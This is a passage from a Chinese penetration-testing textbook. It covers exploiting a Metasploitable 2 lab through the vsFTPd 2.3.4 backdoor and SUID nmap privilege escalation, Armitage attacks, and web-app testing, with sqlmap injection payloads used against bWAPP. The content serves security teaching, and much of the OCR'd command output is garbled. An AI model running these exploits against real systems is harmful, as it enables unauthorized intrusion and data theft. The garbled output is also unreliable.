8. 要提升权限变为 root，可以尝试利用任何 SUID 二进制。但在运行任何命令之前，你应该通过执行图 5.28 所示的命令进入 `meterpreter` shell：

```bash
meterpreter > shell

Process 3 created.

Channel 3 created.

bash -i

bash: no job control in this shell

tomcat5@metas:$
```

图 5.28：来自 `meterpreter` 的 shell

9. 你可以通过运行 `find / -type f -perm 4000 2>/dev/null` 来搜索设置了 SUID 的二进制文件。许多带有 SUID 位的二进制文件将如图 5.29 所示显示：

```bash
tomcat5@metasitable:$ sudo find -type f -perm 4000 2>/dev/null

/bin/umount

/bin/mount

/bin/ping

/bin/gpg

/sbin/chdup

/usr/lib/db/call-dhclient-script

/bin/sudo

/bin/mount

/bin/qt-sh

/bin/gpasswd

/sbin/netstat.iputils

/bin/sudo

/bin/login

/bin/arping

/bin/atd

/bin/negrt

/bin/map

/bin/netkit-rc

/bin/passwd

/bin/setuid

/bin/telnet

/usr/libexec/consec

/usr/lib/decrypt-get-device

/bin/ssh-keys

/usr/lib/pt_chow

tomcat5@metasitable#
```

图 5.29：搜索任何 SUID 二进制文件

10. 使用 `Nmap`，你可以执行权限提升并成为 root 用户。如图 5.30 所示运行 `nmap --interactive` 命令：

```bash
meterpreter > shell

Process 4 created.

Channel 4 created.

nmap --interactive
```

```bash
Starting Nmap V. 4.53 ( http://insecure.org )

Welcome to Interactive Mode -- press h for help

nmap> !sh

whoami

root
```

图 5.30：权限提升

11. 在获取 Metasploitable 2 的 root 权限后，用户可以进行各种横向移动来实现目标，如图 5.31 所示：

```bash
ls -l

total 85

drwxr-xr-x root root 4096 2012-05-13 23:35 bin

drwxr-xr-x root root 1024 2012-05-13 23:35 dev

drwxr-xr-x root root 4096 2012-05-13 23:35 etc

drwxr-xr-x root root 4096 2012-05-13 23:35 home

drwxr-xr-x root root 4096 2012-05-13 23:35 lib

drwxr-xr-x root root 4096 2012-05-13 23:35 root

drwxr-xr-x root root 4096 2012-05-13 23:35 mnt

drwxr-xr-x root root 4096 2012-05-13 23:35 opt

drwxr-xr-x root root 4096 2012-05-13 23:35 proc

drwxr-xr-x root root 4096 2012-05-13 23:35 root

drwxr-xr-x root root 4096 2012-05-13 23:35 srv

drwxr-xr-x root root 4096 2012-05-13 23:35 sys

drwxr-xr-x root root 4096 2012-05-13 23:35 tmp

drwxr-xr-x root root 4096 2012-05-13 23:35 usr

drwxr-xr-x root root 4096 2012-05-13 23:35 var
```

图 5.1：横向移动

## 手动利用

使用 Metasploit 进行漏洞利用需要高级技术知识以及对目标系统和被利用漏洞的深度理解。一种常见的方法是使用 Python 或 C 等编程语言编写自定义利用代码。另一种方法是使用公开的利用程序或脚本，并根据目标系统和漏洞进行修改。

要利用 Metasploitable 2 机器上的 `vsFTPD`，我们将使用 `telnet` 并触发备份以获取反向 shell 访问。按照以下步骤操作：

1. 在终端中运行 `telnet <Metasploitable 2 的 IP 地址>` 命令，如图 5.32 所示：

```
(ummedmeel@kali)-[~/Desktop]

$ telnet 192.168.149.129 21

trying 192.168.149.129...

Connected to 192.168.149.129.

Escape character is '^'.

220 (vsFTPd 2.3.4)
```

图 5.32：运行 `telnet`

2. 使用 `USER` 后接随机字符串和一个笑脸 `)` 输入凭据，然后使用 `PASS` 输入另一个随机字符串并回车。要退出 `telnet`，按 `Ctrl + ]` 然后按回车，如图 5.33 所示。

```
(ummedmeel@kali)-[~/Desktop]

$ telnet 192.168.149.129

trying 192.168.149.129...

Connected to 192.168.149.129.

Escape character is '^'.

220 (vsFTPd 2.3.4)

User ummed:

331 Please specify the password.

Pass

ummed

*

telnet quit

Connection closed.
```

图 5.33：输入凭据

3. 一旦成功利用了 `vsFTPd` 2.3.4，将创建一个绑定到端口 6200 具有 root 权限的 shell。要连接到该 shell，运行命令 `nc <Metasploitable 2 的 IP 地址> 6200`，如图 5.34 所示。

```
(ummedmeel@kali)-[~/Desktop]

$ nc 192.168.149.129 6200

whoami

root

id

uid=0(root) gid=0(root)

uname -a

Linux metasploitable 2.6.24-16-server 1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

图 5.34：将 shell 连接到端口 6200

请注意，该字符串在成功利用 `vsFTPd` 2.3.4 版本漏洞时起着至关重要的作用。此版本的 `vsFTPd` 包含一个 2011 年引入的后门。该后门代码旨在搜索用户在 FTP 服务器登录过程中输入的特定字符串。如果后门按正确顺序找到笑脸字符，它将触发一个名为 `vsf_sysutil_extra()` 的函数，打开一个具有 root 权限的 shell。

## 使用 Armitage 进行利用

`Armitage` 是一个易用的图形化攻击管理工具，简化了在目标系统上创建和执行攻击的过程。它为流行的开源 `Metasploit` 框架提供了可视化界面，该框架广泛用于渗透测试和漏洞评估。

`Armitage` 为安全人员提供了启动预构建的 `Metasploit` 模块或自定义攻击以满足其需求的能力。它还包含了协作、报告和跟踪攻击进度的功能，使其成为伦理黑客不可或缺的资产。该工具的可视界面简化了绘制网络和识别潜在攻击目标的过程。

### 设置 Armitage

以下是在 Kali Linux 中设置 `Armitage` 的逐步方法：

1. 在终端中运行命令 `sudo apt-get install armitage` 来安装 `Armitage`，如图 5.35 所示：

```
(ummedmeel@kali)-[~/Desktop]

$ sudo apt-get install armitage

[sudo] password for ummedmeel:

Reading package lists ... Done
```


```
Building dependency tree... Done
Reading state information... Done

The following packages were automatically installed and are no longer required:
docutils-common-python3-alabaster python3-devtools python3-imagesize python3-roman
Use 'sudo apt autoremove' to remove them.

The following additional packages will be installed:
openjdk-11-jre openjdk-11-jre-headless
```

图 5.35：安装 `Armitage`

2. 在终端中运行命令`sudo service postgresql start`来启动 PostgreSQL 服务，如图 5.36 所示：

```
(ummedmeel@kali) ~/Desktop
$ sudo service postgresql
(ummedmeel@kali) ~/Desktop
$ sudo service postgresql
 * postgresql.service: PostgreSQL DBMS
  loaded (/lib/systemd/system/postgresql.service; preset: disabled)
  active (exited) since Thu 2023-03-16 12:39:52 EDT; 8 ago
 Process: 79511 ExecStart=/bin/true (code=exited, status=0/SUCCESS)
 Main PID: 79511 (code=exited, status=0/SUCCESS)
 CPU: 3ms
```

图 5.36：启动 PostgreSQL 服务

3. 在终端中运行命令`msfdb init`来初始化 Metasploit 数据库，如图 5.37 所示：

```
(ummedmeel@kali) ~/Desktop
$ sudo msfdb init
 [+] Starting database
[i] The database appears to be already configured, skipping initialization
```

图 5.37：初始化 Metasploit 数据库

4. 在终端中输入`sudo armitage`启动 `Armitage`，如图 5.38 所示：

```
(ummedmeel@kali) ~/Desktop
$ sudo armitage
```

图 5.38：启动 `Armitage`

5. 点击第 4 步中的`connect`启动 Metasploit 框架，如图 5.39 所示：`Armitage` 的 GUI 分为三个部分：第一部分显示可用主机、服务和目标列表。第二部分是提供各种启动选项的攻击菜单。最后是显示详细结果报告功能的控制台。为了了解如何使用 `Armitage`，让我们来看利用 PHP 相关漏洞的示例：

1. 在 `Armitage` 中点击`Hosts`按钮并在`Add Hosts`字段中输入目标 IP 地址或主机名，如图 5.40 所示。接下来，导航到 Nmap Scan 对开放端口和服务进行密集扫描，如图 5.41 所示。Nmap 扫描完成后，你可以通过 Attack 菜单使用关键字搜索漏洞（例如`exploit/http/php_injection`）。在启动之前双击漏洞并提供必要信息，如图 5.42 所示。我们正在使用漏洞版本 5.3.2 和 5.4，利用`-d`标记设置`php.ini`以实现代码执行。例如：

| Option | Value |
|---|---|
| `LHOST` | 192.168.149.129 |
| `PHOST` | 21998 |
| `Process` | 192.168.149.130 |

- 使用反向连接
- 显示高级选项

```
auxiliary
exploit
linux
  db_command_php_req_output
  php_cmdhow_php_injection
  php_map_open
  seagate_php_req_output
mult
  cadara_php_backdoor_exploit
  lms_php_exploit
  nas48_php_exploit
  php_req_arg_exploit
```

```
Console http -t services | Apache/2.2.8 (Ubuntu) DAI/2
* [1] http-server-headers: Apache/2.2.8 (Ubuntu) DAI/2
* [2] http-title: Metasploit
* [3] http-server-methods: GET OPTIONS
* [4] http-open (Port #10000)
* [5] http-version: 1.1 200
* [6] http-open 111/tcp 10000
* [7] http-open 111/tcp
```

图 5.42：选择并运行漏洞

4. 成功利用后，主机图标将显示电，并打开一个 shell 窗口进行进一步交互，如图 5.43 所示。

```
auxiliary
exploit
linux
  db_command_php_req_output
  php_cmdhow_php_injection
  seagate_php_req_output
mult
  cadara_php_backdoor_exploit
  lms_php_exploit
  nas48_php_exploit
  php_backdoor
  php_type_rc
```

```
192.168.149.129:21998 > interact
services: 1
interact
shell
domain
root
Modules
connected
```

```
Console http - t services | exploit
ID: 0x000001
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
[+] 192.168.149.129:21998 > exploit -v -f
```


## 5. 横向移动与攻击探索

5. 为了探索额外的攻击选项，右键点击被攻破主机并打开 `shell` `1` 窗口进行横向移动，如图 5.44 所示。



6. 如果你不确定使用哪种漏洞利用（`exploit`），请导航到“攻击”（`Attacks`）选项卡，并尝试使用如图 5.45 所示的“查找攻击”（`Find Attacks`）或“孤注”（`Hail Mary`）攻击等功能。



`Armitage` 提供了一种“孤注”攻击功能，可以在不进行事先侦察的情况下启动漏洞利用，通常作为方法失败或时间紧迫时的最后手段，其特点是高风险、高回报。

### 结论

总之，本章为渗透测试人员提供了一份宝贵的资源，帮助他们增强在识别和利用网络漏洞方面的技能。通过实际示例和开源工具，本章旨在深化渗透测试人员对网络安全态的知识和理解，从而能够制定有效的缓解策略。

网络渗透测试对于组织的安全计划至关重要，它能为网络基础设施中的潜在安全风险和漏洞提供价值见解。然而，这需要对目标环境的基础和潜在漏洞有深入的理解。渗透人员必须以谨慎和专业的态度对待工作，以减少对目标环境的任何负面影响。

下一章将涵盖基础和高级 `Web` 利用技术，包括威胁建模、识别和利用技术及业务逻辑流，以及将较小的漏洞组合在一起。主题包括 `SQL` 注入、`XSS`、文件包含等。

## 加入我们书籍的 Discord 空间

加入书籍的 `Discord` 工作空间以获取最新更新、优惠、全球科技动态、新发布以及与作者的座会：

`https://discord.bponline.com`


# 第 6 章 Web 应用程序利用

## 引言

本章的主要目标是为 `Web` 应用程序利用提供全面的介绍。在当今数字时代，`Web` 应用程序已成为个人、企业和组织日常运营不可或缺的一部分，但它们也极易受到网络攻击。因此，`Web` 应用程序审计员和渗透测试人员充分理解 `Web` 应用程序漏洞以及如何利用它们至关重要。

本章涵盖了 `Web` 应用程序的基础和高级漏洞利用。它解释了攻击者使用的常用攻击向量，并教你如何创建与性质和业务相匹配的威胁模型以进行高效测试。此外，你将学习识别和利用所有的技术和业务逻辑流，以及如何将较小的漏洞链在一起以理解其影响。在本章结束时，你将对最先进的 `Web` 应用程序利用技术获得完整的理解，并具备进行复杂评估所需的知识。

## 结构

在本章中，我们将讨论：

- 什么是 `Web` 渗透测试
- `Web` 应用程序渗透测试方法
- `Web` 应用程序渗透测试攻击向量
- `Web` 应用程序的 `OWASP` `Top` `10`
- `Web` 应用程序渗透测试威胁建模
- 检测 `Web` 应用防火墙（`WAF`）和负载均衡器
- 利用特定应用程序漏洞
- `SQL` 注入
- `PHP` 代码执行
- 登录处的暴力破解
- 身份验证损坏
- 不安全的直接对象引用
- 使用验证器的 `XSS`
- 通过无限制文件上传设置后门
- 业务逻辑缺陷

## 目标

本章全面介绍了 `Web` 应用程序渗透测试，并考虑了它们在日常运营中的重要性和脆弱性。它涵盖了基础和高级利用技术，教授了威胁模型，并突出了常见的攻击向量。读者将学习识别和利用技术性及业务逻辑漏洞，获得对其集体影响和网络安全增强的见解。

## 什么是 Web 应用程序渗透测试

`Web` 应用程序渗透测试是确保 `Web` 应用程序安全的关键过程，通过识别可能被攻击者利用的漏洞来实现。该过程涉及进行各种测试，以检测任何可能导致未经授权访问或对应用程序及其用户造成损害的安全缺陷。注入攻击、跨站脚本（`XSS`）、跨站请求伪造（`CSRF`）、身份验证和授权漏洞、信息泄露、文件包含漏洞、不安全通信、拒绝服务（`DoS`）攻击和弱加密是 `Web` 应用程序渗透测试通常涵盖的最常见攻击向量。

## Web 应用程序渗透测试方法

执行 `Web` 应用程序渗透测试，需要一种全面且系统的方法来检测潜在漏洞，并为增强 `Web` 应用程序的安全提供建议。遵循标准化的方法对于保证所有可能的漏洞都被识别和解决至关重要。高级 `Web` 应用程序渗透测试通常在以下阶段进行，如图 6.1 所示：

- 规划和侦察
- 威胁建模和风险评估
- 漏洞扫描
- 手动测试
- 攻击和概念验证（`POC`）开发
- 报告



> 注意：`Web` 应用程序渗透测试是 `Web` 应用程序安全的重要组成部分，有助于识别漏洞并加强 `Web` 应用程序的安全态。

## Web 应用程序渗透测试攻击向量

`Web` 应用程序渗透测试涉及检查一系列攻击向量，以检测可能被恶意分子利用的漏洞。`Web` 应用程序渗透测试中审查的最常见攻击向量如下：

- 注入攻击
- 跨站脚本
- 跨站请求伪造
- 身份验证和授权漏洞
- 信息泄露
- 文件包含漏洞
- 不安全通信
- 拒绝服务攻击
- 弱加密
- 访问控制损坏
- 配置错误
- 业务逻辑缺陷
- 社会工程

## Web 应用程序 OWASP Top 10

`OWASP` `Top` `10` 是 `Web` 应用程序最严重安全风险的汇，由开放 `Web` 安全项目（`OWASP`）定期识别和更新。它为 `Web` 应用程序可能遇到的最重大漏洞提供了宝的指南。`Web` 应用程序 `OWASP` `Top` `10` 包括以下漏洞：

- 访问控制损坏
- 加密失效
- 注入
- 不安全设计
- 安全配置错误
- 漏洞和过时的组件
- 身份和认证失效
- 软件和数据完整性失效
- 安全日志和监控失效
- 服务器请求伪造

## Web 应用程序渗透测试威胁建模

威胁建模是一个系统评估和分析系统或应用程序相关风险的过程，旨在制定适当的缓解策略以减少网络攻击发生的概率和影响。在进行 `Web` 应用程序渗透测试时，威胁建模可以帮助安全专业人员优先考虑漏洞并引导其测试工作。在 `Web` 应用程序渗透测试的背景下，可以采取以下步骤：

- 识别资产
- 定义架构
- 识别潜在威胁
- 分析风险
- 对威胁进行优先级排序
- 制定缓解策略
- 测试 `Web` 应用程序

让我们考虑一个基于 `Web` 的电子商务应用程序示例，允许用户浏览产品、将商品加入购物车并完成购买。以下是威胁建模过程如何应用于该应用程序：

1.  **识别资产**：电子商务应用程序依赖于多种资产，包括用户数据（如个人身份信息、订单历史和支付详情）、应用程序服务器和网络基础设施。
2.  **定义架构**：该电子商务应用程序由前端 `Web` 服务器、处理用户请求的应用程序服务器、负载均衡器、中间件、微服务以及存储用户数据的后端数据库。
3.  **识别潜在威胁**：电子商务应用程序可能面临各种威胁，例如 `SQL` 注入攻击、不当的访问控制和敏感数据泄露。
4.  **分析风险**：`SQL` 注入攻击可能导致对数据库的未经授权访问，而访问控制不当可能导致用户数据被未经授权的修改。
5.  **确定威胁优先级**：根据潜在风险和影响，对电子商务应用程序最关键的威胁可能包括 `SQL` 注入攻击、访问控制不当以及敏感数据泄露。
6.  **开发缓解策略**：为了应对这些威胁，电子商务应用程序可以实施措施，如使用预处理语句防止 `SQL` 注入，设置适当的访问控制以防止用户数据被非法修改，以及加密敏感数据以防止泄露。
7.  **测试 Web 应用**：最后，必须使用合适的工具和技术对电子商务应用程序进行测试，以验证缓解策略的有效性并发现任何额外的漏洞。

> 威胁建模是全面 `Web` 渗透测试的关键组成部分，因为它有助于识别可能被忽略的漏洞。它可以帮助渗透测试人员制定重点计划来缓解风险并提高应用程序的整体安全性。

## Web 应用渗透测试导图

`Web` 应用渗透地图直观地展示了程序的结构以及待测试漏洞的组件。它组织了测试过程，并使用思维导图软件、白板或纸张创建。该地图包含了输入验证和会话管理等区域的节点，并带有漏洞扫描和手动测试等特定测试活动的子节点。它有助于确保测试过程的全面性，并便于向客户沟通测试策略，如图 6.2 所示：

## SQL 注入
- 业务逻辑漏洞
- 会话管理
- 信息泄露



如图 6.2 所示，“客户端”（`Client-side`）和“服务端”（`Server-side`）术语代表应用程序架构的核心支柱。让我们深入探讨这些组件的本质。

**客户端**：当你使用应用程序时，负责界面美化并让你能够进行交互的部分被称为客户端。它运行在你的电脑或手机上，使用 `HTML`、`CSS` 和 `JavaScript` 等工具显示按钮、图片，并在你点击时做出响应。

**服务端**：想象你正在应用程序中提一个问题。服务端就像一个坐在远处的得助手。它接收你的问题，确定你需要什么，与数据库通信，并发送有用的答案。它处理安全、数据管理和确保运行顺畅等智能化工作。

在表 6.1 中，让我们了解客户端和服务端在应用程序架构中是如何协同工作的：

| 维度 | 客户端 | 服务端 |
|---|---|---|
| 角色 | 创建具有视觉吸引力的视觉效果，使用 `HTML`、`CSS` 和 `JavaScript` 实现交互。 | 充当远处的助手，处理你的请求，与数据库通信并提供价值价值响应：管理安全、数据和无缝运行。 |
| 运行位置 | 在你的电脑或手机上运行。 | 运行在远程服务器上。 |
| 性能 | 确保设备上实现流畅、快速的视觉效果。 | 处理复杂任务以实现无缝性能，特别是对于复杂的运算。 |
| 安全性 | 直接交互 | 像安全员一样保护你的数据和应用程序。 |
| 数据处理 | 显示图像，响应点击。 | 理解你的需求，管理数据并提供有意义的响应。 |

表 6.1：服务端与客户端的协同作用

## 检测 Web 应用防火墙和负载均衡器

我们必须收集有关目标应用程序完整且准确的信息。如果应用程序部署包含了 `Web` 应用防火墙（`WAF`）和负载均衡器（`LB`），它们可能会影响有效负载的执行以及来自服务器的响应。对攻击和响应的任何混淆或误解都导致漏洞未被识别或计算错误。

要识别 `Web` 应用上部署的 `WAF`，可以使用 `wafw <webappurl>` 命令，如下图 6.3 所示：

```bash
(ummdnieel@kali)~/Desktop
$ wafw www.xyz.com
```



- 检查 `https://www.xyz.com`
- 访问 `https://www.xyz.com` 的站点位于 `Aqua` `SiteDefender` (`Akanal`) `WAF` 后方。
- 请求数：2

图 6.3：`Web` 应用防火墙检测

要识别 `Web` 应用上部署的 `LB`，可以使用 `lbd <webappurl>` 命令，如图 6.4 所示：

```bash
cmd /c kill /f Desktop

lbd -- load balancing detector 0.4 - Check if a domain uses load-balancing.

Proof-of-concept: Might give false.
```

```text
Checking for HTTP-Load-Balancing:
dcir.akam.net has address 49.44.XX-XX
dcir.akam.net has address 49.44.XX-XX

Checking for HTTP-Load-Balancing [Server]:
NOT FOUND

Checking for HTTP-Load-Balancing [ID]:
[14:45,14:45,14:45,14:55,14:55,14:55,14:55,14:55]

Checking for HTTP-Load-Balancing [DIFF]:
NOT FOUND
- Expires: Sun, 16 Apr 2023 06:52 GMT
- Queries: Method DNS
xyz.com does load-balancing. Found via
```

图 6.4：负载均衡器

## 利用特定应用程序漏洞

让我们探索一些常见的特定漏洞。这些可能包括应用程序逻辑中的缺陷、配置问题或代码中的弱点。

## SQL 注入

`SQL` 注入是 `Web` 应用中发现的一种危险漏洞，渗透测试人员可以通过输入字段对其利用。该漏洞可能导致严重后果，例如敏感信息的未经授权泄露，包括个人数据、密码或财务记录。渗透测试人员可以借此获取敏感信息、修改数据或完全控制应用程序。

渗透测试人员应该注意以下几种类型的 `SQL` 注入攻击：

- **内带 SQL 注入**（`In-band` `SQL` injection）：内带 `SQL` 注入允许渗透测试人员通过同一个通道发送和接收攻击结果。它是非盲注的，且具有极大风险。
- **盲注 SQL 注入**（`Blind` `SQL` injection）：盲注 `SQL` 注入很难检测，因为测试人员无法直接接收数据库信息，而是从响应中解释线索。
- **带外 SQL 注入**（`Out-of-band` `SQL` injection）：带外 `SQL` 注入使用独立的通信通道发送和接收攻击结果，例如使用 `DNS` 查询。

渗透测试人员应该了解主要的 `SQL` 注入攻击类型，因为攻击者可以使用许多变体和组合来利用漏洞。保持更新至关重要。

为了理解在实践中如何利用 `SQL` 注入，我们将使用 `Buggy` `Web` `Application` (`bWAPP`) 的单个通用扩展（`GET`）参数示例，在尝试使用 `sqlmap` 进行利用之前识别其漏洞。`sqlmap` 是一种广泛使用的开源渗透测试工具，简化了 `Web` 应用 `SQL` 注入漏洞的检测和利用。以下是使用 `sqlmap` 在 `bWAPP` 中利用 `SQL` 注入的步骤方法：

1.  确定 `bWAPP` (`GET/search`) 页面的目标 `URL` 以测试 `SQL` 注入漏洞，如图 6.5 所示。



图 6.5：测试 `SQL` 注入的 `bWAPP` (`GET/search`) 页面

2.  使用图 6.6 所示的命令 `sqlmap -u <target URL> --random-agent` 检测目标 `URL` 中的 `SQL` 注入漏洞。

```bash
sqlmap -u http://192.168.29.25/bWAPP/sqli_1.php?title=---cookie="PHPSESSID=q8omhem3kkoi09sfnfoukim22;security_level=0" --random-agent

sqlmap -u "http://192.168.26.25/bWAPP/sql1.php?title=cookie=q8omhem3kk3i9sfnfo9ukim22;security_level=0" --random-agent
```

> 法律提示：在未经事先许可的情况下使用 `sqlmap` 攻击目标是非法的。用户有责任遵守所有适用的当地、州和联邦法律。数据库管理员不对该程序造成的任何风险或损坏承担责任。

```text
[*] [0] 08:42:55 / 2023-08-29 - file from "file"
[*] [1] fetched HTTP header - User-agent value is "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0"
[*] [2] testing the parameter 'title'
[*] [3] testing the URL content is injectable
[*] [4] testing the parameter 'title' - might be injectable (boolean)
[*] [5] testing for error-based SQL injection
[*] [6] testing the parameter 'title' - might be vulnerable to cross-site scripting (XSS) attacks
[*] [7] testing for time-based SQL injection
The boolean-based DBMS is MySQL. If you want to test for other DBMS use -- (v/a)
For the comparison method, we use the provided test (1) and risk (2) values? [v/a]
[*] [8] testing the parameter 'title' - reflective value was found
[*] [9] testing the parameter 'title' - filtering out WHERE or HAVING (MySQL comment)
[*] [10] testing the parameter 'title' - injectable (with "string*")
[*] [11] - appears to be
```


## 3. 使用命令列出使用漏洞参数识别出的所有 SQL 注入，如图 6.7 所示：

`GET` 参数 `'title'` 存在漏洞。你是否想继续测试其他参数（如果有的话）[y/n]
`sqlmap` 总共通过 5 个 HTTP 请求识别了漏洞点：

参数列表: `title`

- 类型: 布尔盲 (boolean-based)
- 类型: 布尔盲注 `WHERE OR HAVING` (MySQL 注释)
- 负载: `AND 54vs-54vs`

- 类型: 报错注入 (error-based)
`Payload: AND 5 OR 8 error -- #, ORDER BY 7 GROUP BY 7,71717777,FLOOR(RAND(8*2)),7,7171777,FLOOR(RAND(8*2)) FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x--`

- 类型: 时间盲注 (time-based)
`Payload: AND (SELECT 1 FROM (SLEEP(5)))a`

- 类型: 联合注入 (union-based)
`Payload: UNION SELECT NULL,NULL,NULL,717387317,7-8B06aa4c4f17a9f4729840444485522748a62724a582624a7a5a4f7a7a65e2731a4d5a55a5a4d5599`

- 类型: 联合查询 (union-query)
`Payload: UNION SELECT COUNT(NULL)-- -`

```
[* 0] [150] the boolean-based DBMS is MySQL.

error-based DBMS is MySQL.

web technology: PHP/5.6.38, Apache 2.4.25

file logged data to test files in "/home/admin/.local/share/sqlmap/output/192.168.26.25"

[*] 1] 08:42:29 / 2023-08-29 - end
```

图 6.7: 所有可能的 SQL 注入类型列表

## 4. 分析目标 URL 的 SQL 注入漏洞，并使用图 6.8 中的命令 `sqlmap -u <target URL> --random-agent --dbs` 生成可用数据库列表：

命令: `sqlmap -u "http://192.168.26.25/bWAPP/sql1.php?title=--cookie=PHESSID=q8omhem3kk3i9sfnfo9ukim22;security_level=0" random-agent -dbs`

```
[02:56:58] [INFO] the back-end DBMS is MySQL

web server operating system: Windows

web application technology: Apache 2.4.25, PHP 5.6.30

back-end DBMS: MySQL > 5.0 (MariaDB fork)

[02:01:58] [INFO] fetching database names

available databases [

* bwapp

* information_schema

* mysql

* performance_schema

* phpmyadmin

* test

]
```

图 6.8: 可用数据库列表

## 5. 获取数据库列表后，运行命令 `sqlmap -u <target URL> --random-agent -D <database name>` 显示所选数据库中的所有表，如图 6.9 所示。

```
Command: sqlmap -u http://192.168.29.25/bWAPP/sqli_1.php?title=

cookie=PHPSESSID=q8omhem3kkoi09sfnfo9ukim22;security_level=0

random-agent -D bwapp --tables
```

```
[02:56:58] [INFO] the back-end DBMS is MySQL
web server operating system: Windows
web application technology: Apache 2.4.25
back-end DBMS: MySQL > 5.0 (MariaDB fork)
[02:56:58] [INFO] fetching tables for database: 'bwapp'
Database: bwapp
